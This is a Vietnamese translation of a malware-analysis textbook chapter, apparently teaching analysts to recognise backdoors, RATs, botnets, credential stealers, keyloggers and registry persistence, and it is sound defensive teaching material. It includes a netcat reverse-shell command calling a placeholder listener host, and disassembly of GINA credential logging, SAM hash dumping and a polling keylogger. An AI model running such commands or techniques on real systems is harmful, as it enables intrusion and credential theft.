# Phần 4: Chức Năng Chuyên Sâu Của Mã Độc (Malware Functionality)

---

## Chương 11: Hành Vi Của Mã Độc (Malware Behavior)

Cho đến nay, chúng ta đã tập trung vào việc phân tích mã độc, và ở mức độ thấp hơn là tìm hiểu những gì mã độc có thể làm. Mục tiêu của chương này và ba chương tiếp theo là giúp bạn làm quen với các đặc điểm phổ biến nhất của phần mềm giúp nhận diện nó là mã độc. Chương này sẽ đưa bạn qua một "chuyến tham quan thần tốc" về các hành vi khác nhau của mã độc, một số trong đó có thể bạn đã quen thuộc. Mục tiêu của chúng tôi là cung cấp bản tóm tắt về các hành vi phổ biến và đem lại cho bạn một nền tảng kiến thức toàn diện, cho phép nhận diện nhiều loại ứng dụng độc hại khác nhau. Chúng ta không thể nào bao quát hết mọi loại mã độc vì mã độc mới liên tục được tạo ra với các khả năng dường như vô tận, nhưng chúng tôi có thể mang lại cho bạn sự hiểu biết vững chắc về những dấu hiệu cần tìm kiếm.

### 11.1 Trình Tải (Downloaders) và Trình Khởi Chạy (Launchers)

Hai loại mã độc thường gặp là downloader và launcher. Downloader chỉ đơn giản là tải một mã độc khác từ Internet về và thực thi nó trên hệ thống cục bộ. Downloader thường được đóng gói kèm theo một exploit (mã khai thác). Downloader thường sử dụng Windows API `URLDownloadToFileA`, tiếp theo là một lời gọi đến `WinExec` để tải xuống và thực thi mã độc mới.

Một launcher (còn gọi là loader) là bất kỳ file thực thi nào cài đặt mã độc để thực thi lén lút ngay lập tức hoặc trong tương lai. Launcher thường chứa sẵn mã độc mà chúng được thiết kế để nạp. Chúng ta sẽ thảo luận sâu hơn về launcher trong Chương 12.

### 11.2 Cửa Sau (Backdoors)

$\color{green}{\text{Backdoor (cửa sau)}}$ là một loại mã độc cung cấp cho kẻ tấn công quyền truy cập từ xa vào máy nạn nhân. Backdoor là loại mã độc phổ biến nhất, với đủ mọi hình thức, quy mô cùng nhiều khả năng đa dạng. Mã nguồn backdoor thường triển khai đầy đủ các tính năng, do đó khi sử dụng backdoor, kẻ tấn công thường không cần phải tải thêm mã độc hay đoạn mã bổ sung nào khác.

Backdoor giao tiếp qua Internet bằng vô số cách, nhưng phương thức phổ biến là qua cổng 80 sử dụng giao thức HTTP. HTTP là giao thức được sử dụng phổ biến nhất cho lưu lượng mạng đi ra (outbound traffic), vì vậy nó mang lại cho mã độc cơ hội tốt nhất để trà trộn vào lưu lượng mạng thông thường.

Trong Chương 14, bạn sẽ thấy cách phân tích backdoor ở cấp độ gói tin để tạo ra các network signature (chữ ký mạng) hiệu quả. Hiện tại, chúng ta sẽ tập trung vào giao tiếp ở mức cao.

Backdoor đi kèm với một tập hợp chức năng phổ biến, chẳng hạn như khả năng thao tác với các registry key, liệt kê các cửa sổ hiển thị, tạo thư mục, tìm kiếm tệp tin, v.v. Bạn có thể xác định xem những tính năng nào được triển khai trong backdoor bằng cách xem các hàm Windows mà nó sử dụng và import. Xem Phụ lục A để biết danh sách các hàm phổ biến và những gì chúng có thể tiết lộ về một mẫu mã độc.

#### a. Shell Kết Nối Ngược (Reverse Shells)

$\color{green}{\text{Reverse shell}}$ là một kết nối bắt nguồn từ máy bị nhiễm và cung cấp cho kẻ tấn công quyền truy cập shell vào máy đó. Reverse shell tồn tại dưới dạng mã độc độc lập lẫn thành phần bên trong các backdoor tinh vi hơn. Một khi đã vào được reverse shell, kẻ tấn công có thể thực thi các lệnh như thể chúng đang ngồi trực tiếp trước hệ thống cục bộ.

##### Netcat Reverse Shell

Netcat (được thảo luận trong Chương 3) có thể được sử dụng để tạo một reverse shell bằng cách chạy nó trên hai máy. Kẻ tấn công thường sử dụng Netcat hoặc đóng gói Netcat bên trong các mã độc khác.

Khi Netcat được sử dụng làm reverse shell, máy từ xa sẽ chờ các kết nối đến bằng lệnh sau:
```bash
nc -l -p 80
```
Tùy chọn `-l` đặt Netcat ở chế độ lắng nghe (listening mode), và `-p` dùng để chỉ định cổng lắng nghe. Tiếp theo, máy nạn nhân kết nối ra ngoài và cung cấp shell bằng lệnh sau:
```bash
nc listener_ip 80 -e cmd.exe
```
Thành phần `listener_ip 80` là địa chỉ IP và cổng trên máy từ xa. Tùy chọn `-e` được dùng để chỉ định một chương trình sẽ thực thi sau khi kết nối được thiết lập, gắn kết luồng nhập/xuất chuẩn (standard input/output) của chương trình đó vào socket (trên Windows, `cmd.exe` thường được sử dụng, như thảo luận tiếp theo).

##### Windows Reverse Shell (Kỹ thuật Cơ bản và Đa luồng)

Kẻ tấn công áp dụng hai cách triển khai mã độc đơn giản cho reverse shell trên Windows bằng cách sử dụng `cmd.exe`: cơ bản (basic) và đa luồng (multithreaded).

Phương pháp cơ bản rất phổ biến đối với các tác giả mã độc, vì nó dễ viết hơn và nhìn chung hoạt động hiệu quả không kém kỹ thuật đa luồng. Nó bao gồm một lời gọi đến `CreateProcess` và thao tác cấu trúc `STARTUPINFO` được truyền vào `CreateProcess`. Đầu tiên, một socket được tạo và kết nối đến máy chủ từ xa được thiết lập. Socket đó sau đó được gắn với các luồng chuẩn (standard input, standard output, standard error) của `cmd.exe`. `CreateProcess` chạy `cmd.exe` với cửa sổ bị ẩn đi nhằm che giấu nó khỏi nạn nhân. Có một ví dụ về phương pháp này trong Chương 7.

Phiên bản đa luồng của một reverse shell trên Windows bao gồm việc tạo một socket, hai pipe và hai thread (vì vậy hãy tìm kiếm các lời gọi API tới `CreateThread` và `CreatePipe`). Phương pháp này đôi khi được các tác giả mã độc sử dụng như một phần chiến lược nhằm thao tác hoặc mã hóa dữ liệu truyền vào/ra qua socket. `CreatePipe` có thể được sử dụng để nối các đầu đọc và ghi vào một pipe, chẳng hạn như standard input (stdin) và standard output (stdout). Phương thức `CreateProcess` có thể được dùng để gắn các luồng chuẩn vào các pipe thay vì gắn trực tiếp vào các socket. Sau khi `CreateProcess` được gọi, mã độc sẽ tạo ra hai luồng: một luồng để đọc từ pipe stdin và ghi vào socket, luồng còn lại để đọc từ socket và ghi vào pipe stdout. Thông thường, các luồng này sẽ thao tác dữ liệu bằng cách mã hóa dữ liệu (data encoding) mà chúng ta sẽ đề cập trong Chương 13. Bạn có thể dịch ngược các đoạn mã mã hóa/giải mã (encoding/decoding routines) được sử dụng bởi các luồng để giải mã các gói tin bắt được chứa phiên làm việc đã mã hóa.

#### b. Công Cụ Quản Trị Từ Xa (Remote Administration Tools - RATs)



*Hình 11.1: Mô hình mạng của RAT: Server chạy ngầm trên máy nạn nhân, Client do kẻ tấn công điều khiển.*

Một Remote Administration Tool (RAT - công cụ quản trị từ xa) được sử dụng để quản lý máy tính từ xa. RAT thường được sử dụng trong các cuộc tấn công có chủ đích (targeted attacks) với các mục tiêu cụ thể, chẳng hạn như đánh cắp thông tin hoặc di chuyển ngang (lateral movement) qua hệ thống mạng.

Máy chủ (server) chạy trên máy nạn nhân đã bị cấy mã độc. Phía điều khiển (client) chạy từ xa như một đơn vị chỉ huy và kiểm soát (command and control - C2) do kẻ tấn công vận hành. Các server gửi tín hiệu beacon đến client để bắt đầu kết nối, và chúng được điều khiển bởi client. Giao tiếp RAT thường diễn ra qua các cổng phổ biến như 80 và 443.

> **GHI CHÚ:** Poison Ivy (`[http://www.poisonivy-rat.com/](http://www.poisonivy-rat.com/)`) là một RAT miễn phí và phổ biến. Chức năng của nó được điều khiển bằng các plugin shellcode, giúp nó có khả năng mở rộng linh hoạt. Poison Ivy có thể là một công cụ hữu ích để tạo nhanh các mẫu mã độc phục vụ mục đích kiểm thử hoặc phân tích.

#### c. Mạng Máy Tính Ma (Botnets)

Botnet là một tập hợp các máy chủ bị xâm nhập, được gọi là các zombie, được điều khiển bởi một thực thể duy nhất, thường là thông qua một máy chủ được gọi là botnet controller (máy chủ điều khiển botnet). Mục tiêu của botnet là xâm phạm càng nhiều máy chủ càng tốt nhằm tạo ra một mạng lưới zombie khổng lồ dùng để phát tán thêm mã độc, thư rác (spam), hoặc thực hiện các cuộc tấn công từ chối dịch vụ phân tán (DDoS). Botnet có thể hạ gục một trang web bằng cách ra lệnh cho tất cả các zombie tấn công vào trang web đó cùng một lúc.

#### d. So Sánh Giữa RAT và Botnet

Có một vài điểm khác biệt chính giữa botnet và RAT:

- Botnet nổi tiếng với khả năng lây nhiễm và kiểm soát hàng triệu máy chủ. RAT thường kiểm soát số lượng máy ít hơn rất nhiều.
- Toàn bộ botnet được điều khiển cùng một lúc. RAT được điều khiển trên từng nạn nhân riêng biệt vì kẻ tấn công tương tác với máy chủ nạn nhân ở mức độ chi tiết và trực tiếp hơn nhiều.
- RAT được sử dụng trong các cuộc tấn công có chủ đích (targeted attacks). Botnet được sử dụng trong các cuộc tấn công diện rộng (mass attacks).

### 11.3 Công Cụ Đánh Cắp Thông Tin Xác Thực (Credential Stealers)

Kẻ tấn công thường dùng nhiều cách để đánh cắp thông tin xác thực (credentials), chủ yếu thông qua ba loại mã độc:

- Các chương trình chờ người dùng đăng nhập để đánh cắp thông tin xác thực của họ.
- Các chương trình trích xuất (dump) thông tin được lưu trữ trong Windows, chẳng hạn như password hash, để sử dụng trực tiếp hoặc bẻ khóa ngoại tuyến (crack offline).
- Các chương trình ghi lại thao tác bàn phím (keylogger).

Trong phần này, chúng ta sẽ thảo luận về từng loại mã độc này.

#### a. Can Thiệp GINA (GINA Interception)

Trên Windows XP, kỹ thuật can thiệp GINA (Graphical Identification and Authentication interception) của Microsoft là một kỹ thuật mà mã độc sử dụng để đánh cắp thông tin đăng nhập của người dùng. Hệ thống GINA ban đầu nhằm cho phép các bên thứ ba hợp pháp tùy chỉnh quy trình đăng nhập bằng cách thêm hỗ trợ cho các thiết bị như thẻ nhận dạng tần số vô tuyến (RFID) hoặc thẻ thông minh (smart card). Các tác giả mã độc đã lợi dụng cơ chế hỗ trợ bên thứ ba này để nạp các công cụ đánh cắp thông tin xác thực.

GINA được triển khai trong một DLL tên là `msgina.dll` và được nạp bởi tiến trình `winlogon.exe` trong quá trình đăng nhập. Winlogon cũng hỗ trợ các tùy chỉnh của bên thứ ba được triển khai dưới dạng DLL bằng cách nạp chúng vào giữa Winlogon và DLL GINA (giống như một cuộc tấn công Man-in-the-Middle). Windows cung cấp sẵn vị trí registry sau đây, nơi các DLL của bên thứ ba sẽ được Winlogon tìm và nạp:
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL
```
Trong một sự cố, chúng tôi đã phát hiện một tệp độc hại `fsgina.dll` được cài đặt tại vị trí registry này với vai trò là một GINA interceptor.


Hình _11.2_ cho thấy ví dụ về cách thông tin đăng nhập truyền qua hệ thống với tệp độc hại nằm giữa `winlogon.exe` và `msgina.dll`. Mã độc (`fsgina.dll`) có thể thu thập tất cả thông tin đăng nhập của người dùng được gửi tới hệ thống để xác thực. Nó có thể ghi thông tin đó vào đĩa hoặc truyền qua mạng.

Vì `fsgina.dll` chặn luồng giao tiếp giữa `winlogon.exe` và `msgina.dll`, nó phải chuyển tiếp thông tin đăng nhập đến `msgina.dll` để hệ thống tiếp tục hoạt động bình thường. Để làm được điều đó, mã độc phải chứa tất cả các export của DLL theo yêu cầu của GINA; cụ thể, nó phải export hơn 15 hàm, hầu hết đều có tiền tố là `Wlx`. Rõ ràng, nếu bạn đang phân tích một DLL có nhiều hàm export bắt đầu bằng chuỗi `Wlx`, bạn đã có một dấu hiệu rõ ràng cho thấy mình đang kiểm tra một GINA interceptor.

Hầu hết các hàm export này chỉ đơn giản là gọi chuyển tiếp tới các hàm thực sự trong `msgina.dll`. Trong trường hợp của `fsgina.dll`, tất cả các hàm ngoại trừ hàm export `WlxLoggedOutSAS` đều gọi tới các hàm thật. Đoạn mã 11-1 hiển thị hàm export `WlxLoggedOutSAS` của `fsgina.dll`.
```asm
100014A0 WlxLoggedOutSAS
100014A0 push    esi
100014A1 push    edi
100014A2 push    offset aWlxloggedout_0 ; "WlxLoggedOutSAS"
100014A7 call    Call_msgina_dll_function  ; [1]
...
100014FB push    eax ; Args
100014FC push    offset aUSDSPSOpS ; "U: %s D: %s P: %s OP: %s"
10001501 push    offset aDRIVERS   ; "drivers\tcpudp.sys"
10001503 call    Log_To_File               ; [2]
```
_Listing 11-1: Hàm export WlxLoggedOutSAS của GINA DLL dùng để ghi nhật ký thông tin xác thực bị đánh cắp_

Như bạn có thể thấy tại `[1]`, thông tin đăng nhập được chuyển tiếp ngay lập tức đến `msgina.dll` bằng lệnh gọi mà chúng tôi đã đặt nhãn là `Call_msgina_dll_function`. Hàm này giải quyết động (dynamically resolves) và gọi `WlxLoggedOutSAS` trong `msgina.dll`, vốn được truyền vào như một tham số. Lời gọi tại `[2]` thực hiện việc ghi log. Nó nhận các tham số gồm thông tin đăng nhập, một chuỗi định dạng (format string) dùng để in thông tin xác thực và tên tệp log. Kết quả là tất cả các lần đăng nhập thành công của người dùng đều được ghi vào `%SystemRoot%\system32\drivers\tcpudp.sys`. Log này bao gồm tên người dùng (username), domain, mật khẩu và mật khẩu cũ.

#### b. Trích Xuất Băm Mật Khẩu (Password Hash Dumping)

Trích xuất Windows hash (Hash dumping) là một cách phổ biến để mã độc truy cập vào thông tin xác thực hệ thống. Kẻ tấn công cố gắng thu thập các hash này để bẻ khóa ngoại tuyến hoặc sử dụng chúng trong cuộc tấn công pass-the-hash. Cuộc tấn công pass-the-hash sử dụng các hash LM và NTLM để xác thực với một máy chủ từ xa (sử dụng xác thực NTLM) mà không cần phải giải mã hoặc bẻ khóa các hash để lấy mật khẩu dạng văn bản rõ (plaintext).

`Pwdump` và `Pass-the-Hash (PSH) Toolkit` là các gói công cụ miễn phí cung cấp tính năng trích xuất hash. Vì cả hai công cụ này đều là mã nguồn mở, rất nhiều mã độc được phát triển dựa trên mã nguồn của chúng. Hầu hết các chương trình diệt virus đều có chữ ký (signature) cho các phiên bản biên dịch mặc định của các công cụ này, vì vậy kẻ tấn công thường cố gắng tự biên dịch lại phiên bản riêng nhằm tránh bị phát hiện. Các ví dụ trong phần này là các biến thể phái sinh từ pwdump hoặc PSH mà chúng tôi đã gặp trong thực tế.

`Pwdump` là một tập hợp các chương trình xuất ra các hash mật khẩu LM và NTLM của các tài khoản người dùng cục bộ từ Security Account Manager (SAM). Pwdump hoạt động bằng cách thực hiện chèn DLL (DLL injection) bên trong tiến trình Local Security Authority Subsystem Service (LSASS, thường được biết đến là `lsass.exe`). Chúng ta sẽ thảo luận chi tiết về DLL injection trong Chương 12. Hiện tại, bạn chỉ cần hiểu rằng đó là cách mà mã độc có thể chạy một DLL bên trong một tiến trình khác, từ đó cung cấp cho DLL đó tất cả các đặc quyền của tiến trình đích. Các công cụ dump hash thường nhắm mục tiêu vào `lsass.exe` vì nó có mức đặc quyền cần thiết cũng như quyền truy cập vào nhiều hàm API hữu ích.

Pwdump tiêu chuẩn sử dụng DLL `lsaext.dll`. Sau khi chạy bên trong `lsass.exe`, pwdump gọi `GetHash`, hàm được export bởi `lsaext.dll`, để thực hiện việc trích xuất hash. Quá trình trích xuất này sử dụng các lời gọi hàm Windows không được tài liệu hóa (undocumented Windows function calls) để liệt kê người dùng trên hệ thống và lấy các hash mật khẩu ở dạng chưa mã hóa cho từng người dùng.

Khi đối mặt với các biến thể pwdump, bạn sẽ cần phân tích các DLL để xác định cách thức hoạt động của tính năng dump hash. Hãy bắt đầu bằng cách xem xét các hàm export của DLL. Tên export mặc định cho pwdump là `GetHash`, nhưng kẻ tấn công có thể dễ dàng đổi tên để khiến nó bớt lộ liễu. Tiếp theo, hãy cố gắng xác định các hàm API được sử dụng bởi các export này. Nhiều hàm trong số này sẽ được phân giải động (dynamically resolved), vì vậy các export thực hiện việc trích xuất hash thường gọi `GetProcAddress` nhiều lần.

Đoạn mã 11-2 hiển thị mã trong hàm export `GrabHash` từ một DLL biến thể của pwdump. Do DLL này được inject vào `lsass.exe`, nó phải tự phân giải nhiều symbol trước khi sử dụng chúng.
```asm
1000123F push    offset LibFileName ; "samsrv.dll"            ; [1]
10001244 call    esi                ; LoadLibraryA
10001248 push    offset aAdvapi32_dll_0 ; "advapi32.dll"      ; [2]
...
10001251 call    esi                ; LoadLibraryA
...
1000125B push    offset ProcName    ; "SamIConnect"
10001260 push    ebx                ; hModule
10001265 call    esi                ; GetProcAddress
...
10001281 push    offset aSamrqu     ; "SamrQueryInformationUser"
10001286 push    ebx                ; hModule
1000128C call    esi                ; GetProcAddress
...
100012C2 push    offset aSamigetpriv ; "SamIGetPrivateData"
100012C7 push    ebx                ; hModule
100012CD call    esi                ; GetProcAddress
...
100012CF push    offset aSystemfuncti ; "SystemFunction025"   ; [3]
100012D4 push    edi                ; hModule
100012DA call    esi                ; GetProcAddress
100012DC push    offset aSystemfuni_0 ; "SystemFunction027"   ; [4]
100012E1 push    edi                ; hModule
100012E7 call    esi                ; GetProcAddress
```
_Listing 11.2: Các lời gọi API đặc trưng được sử dụng bởi hàm export GrabHash của một biến thể pwdump_

Đoạn mã _11.2_ cho thấy đoạn mã lấy handle tới các thư viện `samsrv.dll` và `advapi32.dll` thông qua `LoadLibrary` tại `[1]` và `[2]`. Thư viện `samsrv.dll` chứa một API để truy cập dễ dàng vào SAM, còn `advapi32.dll` được phân giải để truy cập các hàm chưa được import vào `lsass.exe`. DLL biến thể pwdump sử dụng handle của các thư viện này để phân giải nhiều hàm, trong đó có 5 hàm quan trọng nhất được hiển thị trong đoạn mã (hãy chú ý các lời gọi `GetProcAddress` và các tham số).

Các hàm import đáng chú ý được phân giải từ `samsrv.dll` là `SamIConnect`, `SamrQueryInformationUser` và `SamIGetPrivateData`. Ở đoạn sau của mã nguồn, `SamIConnect` được sử dụng để kết nối tới SAM, tiếp theo là gọi `SamrQueryInformationUser` cho từng người dùng trên hệ thống.

Các hash sẽ được trích xuất bằng `SamIGetPrivateData` và được giải mã bởi `SystemFunction025` cùng `SystemFunction027` (được import từ `advapi32.dll`) như thấy tại `[3]` và `[4]`. Không có hàm API nào trong danh sách này được Microsoft cung cấp tài liệu kỹ thuật.

PSH Toolkit chứa các chương trình dump hash, phổ biến nhất trong số đó được gọi là `whosthere-alt`. Công cụ `whosthere-alt` trích xuất SAM bằng cách inject một DLL vào `lsass.exe`, nhưng sử dụng một tập hợp các hàm API hoàn toàn khác so với pwdump. Đoạn mã 11-3 hiển thị đoạn mã từ một biến thể `whosthere-alt` export một hàm có tên là `TestDump`.
```asm
10001119 push    offset LibFileName ; "secur32.dll"
1000111E call    ds:LoadLibraryA
10001130 push    offset ProcName    ; "LsaEnumerateLogonSessions"
10001135 push    esi                ; hModule
10001136 call    ds:GetProcAddress  ; [1]
...
10001670 call    ds:GetSystemDirectoryA
10001676 mov     edi, offset aMsv1_0_dll ; \\msv1_0.dll
...
100016A6 push    eax                ; path to msv1_0.dll
100016A9 call    ds:GetModuleHandleA ; [2]
```

_Listing 11.3: Các lời gọi API đặc trưng được sử dụng bởi hàm export TestDump của một biến thể whosthere-alt_

Vì DLL này được inject vào `lsass.exe`, hàm `TestDump` của nó sẽ thực hiện việc trích xuất hash. Hàm export này nạp động `secur32.dll` và phân giải hàm `LsaEnumerateLogonSessions` của nó tại `[1]` để lấy danh sách các Locally Unique Identifier (LUID). Danh sách này chứa tên người dùng và domain cho mỗi phiên đăng nhập và được duyệt tuần tự bởi DLL; DLL này lấy quyền truy cập thông tin xác thực bằng cách tìm một hàm không được export (nonexported function) trong DLL `msv1_0.dll` của Windows trong không gian bộ nhớ của `lsass.exe` bằng cách sử dụng lời gọi `GetModuleHandleA` hiển thị tại `[2]`. Hàm này, `NlpGetPrimaryCredential`, được sử dụng để trích xuất các hash NT và LM.

> **GHI CHÚ:** Mặc dù việc nhận diện kỹ thuật trích xuất là rất quan trọng, nhưng việc xác định xem mã độc đang làm gì với các hash đó có thể còn quan trọng hơn. Nó đang lưu chúng vào đĩa, gửi lên một trang web, hay sử dụng chúng trong cuộc tấn công pass-the-hash? Những chi tiết này có thể rất quan trọng, vì vậy nên tránh đi sâu vào phương pháp dump hash cấp thấp cho đến khi xác định được toàn bộ chức năng tổng thể.

#### c. Ghi Nhận Phím Gõ (Keystroke Logging)

Keylogging là một hình thức đánh cắp thông tin xác thực kinh điển. Khi ghi lại thao tác bàn phím, mã độc ghi nhận các phím đã nhấn để kẻ tấn công có thể quan sát dữ liệu đã nhập như tên người dùng và mật khẩu. Mã độc trên Windows sử dụng nhiều hình thức keylogging khác nhau.

<mark style="background: #FFF3A3A6;">Kernel-Based Keyloggers</mark>

Keylogger hoạt động ở chế độ nhân (kernel-based keylogger) rất khó bị phát hiện bởi các ứng dụng chạy ở chế độ người dùng (user-mode). Chúng thường là một phần của rootkit và có thể đóng vai trò như các driver bàn phím để thu thập các lần nhấn phím, bỏ qua các chương trình và cơ chế bảo vệ trong không gian người dùng (user-space).

<mark style="background: #FFF3A3A6;">User-Space Keyloggers

</mark>

Keylogger chạy trong không gian người dùng trên Windows thường sử dụng Windows API và thường được triển khai bằng kỹ thuật hooking hoặc polling:

- <mark style="background: #D2B3FFA6;">Hooking:</mark> sử dụng Windows API để thông báo cho mã độc mỗi khi một phím được nhấn, thường là với hàm `SetWindowsHookEx`.
- <mark style="background: #D2B3FFA6;">Polling:</mark> sử dụng Windows API để liên tục thăm dò trạng thái của các phím, thông qua việc sử dụng các hàm `GetAsyncKeyState` và `GetForegroundWindow`.

Các hooking keylogger tận dụng hàm Windows API `SetWindowsHookEx`. Loại keylogger này có thể được đóng gói dưới dạng một tệp thực thi để khởi tạo hàm hook, và có thể đi kèm một tệp DLL để xử lý việc ghi log nhằm tự động map vào nhiều tiến trình trên hệ thống. Chúng ta sẽ thảo luận về việc sử dụng `SetWindowsHookEx` trong Chương 12.

Chúng ta sẽ tập trung vào các polling keylogger sử dụng `GetAsyncKeyState` và `GetForegroundWindow`. Hàm `GetAsyncKeyState` xác định xem một phím đang được nhấn hay thả ra, và liệu phím đó có được nhấn sau lần gọi `GetAsyncKeyState` gần nhất hay không. Hàm `GetForegroundWindow` xác định cửa sổ foreground — cửa sổ đang được active (có focus) — cho keylogger biết ứng dụng nào đang được sử dụng để nhập dữ liệu bàn phím (ví dụ: Notepad hoặc Internet Explorer).


Hình 11-3 minh họa cấu trúc vòng lặp điển hình trong một polling keylogger. Chương trình bắt đầu bằng việc gọi `GetForegroundWindow` để ghi log cửa sổ đang hoạt động. Tiếp theo, vòng lặp bên trong lặp qua danh sách các phím trên bàn phím. Đối với mỗi phím, nó gọi `GetAsyncKeyState` để xác định xem phím đó có được nhấn hay không. Nếu có, chương trình sẽ kiểm tra các phím SHIFT và CAPS LOCK để xác định cách ghi lại phím bấm một cách chính xác. Khi vòng lặp bên trong đã duyệt qua toàn bộ danh sách các phím, hàm `GetForegroundWindow` lại được gọi một lần nữa để đảm bảo người dùng vẫn đang ở trong cùng một cửa sổ đó. Quá trình này lặp lại đủ nhanh để theo kịp tốc độ gõ phím của người dùng (keylogger có thể gọi hàm `Sleep` để tránh tiêu tốn quá nhiều tài nguyên hệ thống).

Đoạn mã _11.4_ hiển thị cấu trúc vòng lặp trong _Hình 11.3_ sau khi được disassemble.
```asm
00401162 call    ds:GetForegroundWindow
...
00401272 push    10h                 ; [1] nVirtKey Shift
00401274 call    ds:GetKeyState
0040127A mov     esi, dword_403308[ebx] ; [2]
00401280 push    esi                 ; vKey
00401281 movsx   edi, ax
00401284 call    ds:GetAsyncKeyState
0040128A test    ah, 80h
0040128D jz      short loc_40130A
0040128F push    14h                 ; nVirtKey Caps Lock
00401291 call    ds:GetKeyState
...
004013EF add     ebx, 4              ; [3]
004013F2 cmp     ebx, 368
004013F8 jl      loc_401272
```
_Listing 11.4: Mã Disassembly của keylogger dùng GetAsyncKeyState và GetForegroundWindow_

Chương trình gọi `GetForegroundWindow` trước khi đi vào vòng lặp bên trong. Vòng lặp bên trong bắt đầu tại `[1]` và ngay lập tức kiểm tra trạng thái của phím SHIFT bằng một lời gọi đến `GetKeyState`. `GetKeyState` là cách nhanh chóng để kiểm tra trạng thái phím, nhưng nó không ghi nhớ liệu phím đó có được nhấn kể từ lần gọi cuối cùng hay không như `GetAsyncKeyState`. Tiếp theo, tại `[2]`, keylogger lập chỉ mục (index) một mảng các phím trên bàn phím bằng thanh ghi EBX. Nếu một phím mới được nhấn, lần nhấn phím đó sẽ được ghi lại sau khi gọi `GetKeyState` để xem CAPS LOCK có đang được kích hoạt hay không. Cuối cùng, EBX được tăng lên tại `[3]` để phím tiếp theo trong danh sách có thể được kiểm tra. Sau khi 92 phím (368/4) được kiểm tra xong, vòng lặp bên trong kết thúc, và `GetForegroundWindow` lại được gọi để bắt đầu lại vòng lặp từ đầu.

<mark style="background: #FFF3A3A6;">Identifying Keyloggers in Strings Listings

</mark>

Bạn có thể nhận diện chức năng keylogger trong mã độc bằng cách nhìn vào các hàm API được import, hoặc bằng cách kiểm tra danh sách chuỗi ký tự (strings listing) để tìm các dấu hiệu, điều này đặc biệt hữu ích nếu các import đã bị xáo trộn (obfuscated) hoặc mã độc đang sử dụng chức năng keylogging mà bạn chưa từng gặp trước đây. Ví dụ, danh sách chuỗi ký tự sau đây được trích xuất từ keylogger đã được mô tả ở phần trước:
```
[Up]
[Num Lock]
[Down]
[Right]
[UP]
[Left]
[PageDown]
```
Nếu một keylogger muốn ghi lại tất cả các lần nhấn phím, nó phải có cách để hiển thị/in ra các phím đặc biệt như PAGE DOWN, và bắt buộc phải chứa các chuỗi ký tự này. Lần ngược lại từ các cross-reference (tham chiếu chéo) đến các chuỗi này có thể là một cách hiệu quả để nhận diện chức năng keylogging trong mã độc.

### 11.4 Cơ Chế Tự Duy Trì Khởi Động (Persistence Mechanisms)

Một khi mã độc giành được quyền truy cập vào hệ thống, nó thường tìm cách duy trì sự hiện diện ở đó trong thời gian dài. Hành vi này được gọi là tính bền bỉ (persistence). Nếu cơ chế persistence đủ độc đáo, nó thậm chí có thể đóng vai trò như một dấu vân tay (fingerprint) tuyệt vời cho một mẫu mã độc cụ thể.

Trong phần này, chúng ta bắt đầu bằng việc thảo luận về phương pháp persistence phổ biến nhất: sửa đổi Windows Registry. Tiếp theo, chúng ta xem xét cách mã độc sửa đổi các tệp để duy trì sự tồn tại thông qua quy trình trojan hóa tệp thực thi nhị phân (trojanizing binaries). Cuối cùng, chúng ta thảo luận về một phương pháp đạt được persistence mà không cần sửa đổi registry hoặc tệp tin, được gọi là DLL load-order hijacking.

#### a. Khóa Windows Registry Tự Khởi Động

Khi thảo luận về Windows Registry trong Chương 7, chúng ta đã lưu ý rằng mã độc thường truy cập registry để lưu trữ thông tin cấu hình, thu thập thông tin về hệ thống và tự cài đặt để khởi động bền bỉ cùng hệ thống. Bạn đã thấy trong các bài lab và xuyên suốt cuốn sách rằng khóa registry sau đây là nơi phổ biến để mã độc tự cài đặt:
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
Còn nhiều vị trí persistence khác trong registry, nhưng chúng tôi sẽ không liệt kê tất cả vì việc ghi nhớ rồi tìm kiếm thủ công từng mục sẽ rất tẻ nhạt và không hiệu quả. Hiện có các công cụ có thể tự động tìm kiếm các khóa registry phục vụ persistence cho bạn, chẳng hạn như chương trình Autoruns của Sysinternals (chỉ ra tất cả các chương trình tự động chạy trên hệ thống của bạn). Các công cụ như ProcMon có thể giám sát các hành vi sửa đổi registry trong khi thực hiện phân tích động cơ bản.

Mặc dù chúng ta đã đề cập đến việc phân tích registry trước đây, nhưng có một vài mục registry phổ biến đáng để mở rộng thêm mà chúng ta chưa thảo luận: `AppInit_DLLs`, `Winlogon`, và các `SvcHost DLLs`.

<mark style="background: #FFF3A3A6;">AppInit_DLLs</mark>

Tác giả mã độc có thể đạt được persistence cho các DLL của chúng thông qua một vị trí registry đặc biệt có tên là `AppInit_DLLs`. Các `AppInit_DLLs` được nạp vào mọi tiến trình có nạp thư viện `User32.dll`, và một thao tác chèn đơn giản vào registry sẽ khiến `AppInit_DLLs` duy trì bền bỉ.

Giá trị `AppInit_DLLs` được lưu trữ trong khóa registry sau của Windows:
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows
```
Giá trị `AppInit_DLLs` thuộc kiểu `REG_SZ` và bao gồm một chuỗi các DLL được phân tách bằng dấu cách. Hầu hết các tiến trình đều nạp `User32.dll`, và tất cả các tiến trình đó cũng sẽ nạp các `AppInit_DLLs`. Tác giả mã độc thường nhắm vào các tiến trình riêng lẻ, nhưng `AppInit_DLLs` lại bị nạp vào rất nhiều tiến trình. Do đó, tác giả mã độc phải kiểm tra xem DLL đang chạy trong tiến trình nào trước khi thực thi payload của chúng. Việc kiểm tra này thường được thực hiện trong hàm `DllMain` của DLL độc hại.

<mark style="background: #FFF3A3A6;">Winlogon Notify</mark>

